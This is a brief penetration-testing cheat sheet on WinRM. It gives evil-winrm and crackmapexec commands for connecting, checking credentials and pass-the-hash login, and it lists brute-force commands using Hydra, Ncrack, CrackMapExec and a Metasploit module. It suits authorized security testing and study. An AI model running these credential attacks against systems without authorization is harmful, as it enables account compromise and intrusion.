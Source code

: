 ### **Introduction**

WinRM (Windows Remote Management) is a protocol for remote management of Windows machines, It allows for secure communication over HTTP or HTTPS to perform tasks like running scripts and managing data remotely. Integrated into Windows, WinRM is essential for centralized management and automation in multi-server environments.

### **Connecting to WinRM**

| Command | Description |
| --- | --- |
| `evil-winrm -i [TARGET-IP] -u [USERNAME] -p [PASSWORD]` | Connects to a remote Windows server using evil-winrm,This command requires the IP address of the target machine and valid user credentials. |
| `crackmapexec winrm [TARGET-IP] -u [USERNAME] -p [PASSWORD] -x "whoami"` | Tests if a specific username and password combination can log in and execute a command to display the current user identity |
| `crackmapexec winrm [TARGET-IP] -u [USERNAME] -H [HASH] -X '$PSVersionTable'` | Uses a hash for authentication with a PowerShell command to verify access. |

### **Brute-Forcing WinRM Credentials**

| TOOL | Command |
| --- | --- |
| CrackMapExec | `crackmapexec winrm [TARGET-IP] -u [USERNAME-LIST] -p [PASSWORD-LIST] --continue-on-success` |
| Hydra | `hydra -L [USERNAME-LIST] -P [PASSWORD-LIST] [TARGET-IP] winrm -V` |
| Metasploit | `auxiliary/scanner/winrm/winrm_login` |
| Ncrack | `ncrack -p 5985 -u [USERNAME-LIST] -P [PASSWORD-LIST] [TARGET-IP]` |

??? warning 

    Be cautious with brute-forcing WinRM, As it may lead to user account lockouts.
